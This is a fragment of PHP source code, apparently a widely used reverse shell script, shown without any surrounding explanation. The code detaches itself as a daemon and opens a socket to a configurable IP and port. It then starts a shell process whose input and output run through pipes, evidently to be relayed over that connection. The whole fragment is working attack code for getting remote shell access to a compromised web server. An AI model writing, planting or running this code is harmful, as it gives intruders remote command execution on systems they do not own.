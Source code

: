 ```php
// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
```